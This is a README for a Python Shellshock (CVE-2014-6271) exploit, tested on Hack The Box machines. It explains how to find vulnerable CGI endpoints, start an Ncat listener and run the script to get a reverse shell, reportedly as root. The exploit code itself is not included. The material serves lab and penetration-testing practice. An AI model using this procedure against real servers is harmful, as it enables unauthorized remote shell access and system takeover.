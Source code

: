 # CVE-2014-6271 - Shellshock.py

Shellshock exploit aka CVE-2014-6271. <br>
Tested on Bash 3.2 and Bash 4.2. <br>
For more information about the vulnerability visit : https://nvd.nist.gov/vuln/detail/CVE-2014-6271

## Note

---

The exploit was mainly tested on **Hack The Box** in the following boxes:

- `Beep` box : https://app.hackthebox.eu/machines/Beep
- `Shocker` box : https://app.hackthebox.eu/machines/Shocker

<br>
This exploit will only work on web servers having a version of Bash < 4.3.<br>
In some cases, if you are able to get a HTTP 200 code on your web browser<br>
by doing a GET request to the `/cgi-bin/`, you could just try to run the exploit against that directory.<br><br>

Otherwise if you have a 403 on the `/cgi-bin/` directory, try to enumerates for files<br>
within that directory with a good wordlist, searching for `.sh` or `.cgi` extensions.<br>

**NOTE: Don't forget to setup your TCP listenner, otherwise the exploit might give you**
**a false positive during the testRevShell call check**<br><br>

## Proof of Concept (POC)

---

First of all we can see the arguments that the exploit is taking by running: `shellshock.py -h`<br><br>
![Example 1](img/poc_script_help.png) <br><br>
Then we can set up a Ncat listenner on a port of our choice, here I chose 45<br><br>
![Example 2](img/poc_pre_shell.png) <br><br>
Next we can run the exploit by supplying all the arguments that it takes by running:<br> `shellshock.py [OUR_IP] [OUR_LISTENNING_PORT] [TARGET_URL]`<br>
The target URL here as you can see is where the web server sends a POST request during authentication on that box <br><br>
Here as we can see in the output, the exploit tried sending the payload over SSL using multiple TLS versions, until it succeed <br><br>
![Example 3](img/poc_script.png) <br><br>
And here we got our reverse shell! Lucky enough, the web server was running as root. <br><br>
![Example 4](img/poc_shell.png) <br>

